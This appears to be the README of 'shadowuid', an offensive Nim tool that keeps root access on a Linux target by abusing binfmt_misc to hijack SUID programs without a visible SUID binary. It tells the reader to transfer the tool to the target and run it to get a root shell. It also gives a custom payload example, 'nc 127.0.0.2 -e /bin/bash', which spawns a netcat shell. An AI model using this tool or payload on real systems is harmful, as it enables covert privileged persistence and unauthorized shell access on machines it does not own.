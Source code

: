 <div align=center>
<img src=./29FE64AD-A0EF-4A23-8FD3-D646071A74C8.png>
<pre><code><strong>Privileged persistence without using noisy and detectable SUID using <i>binfmt</i> </strong>
Also a good way to learn Nim and something new
</code></pre>
</div>

## Like at home 🏡 <sup>(persistance)</sup>

* First transfer `shadowuid` on target
* Run it!<br><pre><code>./shadowuid</code></pre>

And that's all, **root shell** is obtained and process to obtain it again will be outputted 


##### More granular

You can choose which SUID will trigger your payload (`-c`). And, obviously, you can also custom the payload (`--payload`).
An example:
```shell
./shadowuid -c --command "nc 127.0.0.2 -e /bin/bash"
```


## [Understand the trick](TRICK.md)


<div align=center>
<sup>
All credits goes to <a href= https://github.com/Sentinel-One/shadowsuid/>Dor Dankner</a>, <a href= https://github.com/toffan/binfmt_misc>toffan</a> and 
</sup>
</div>
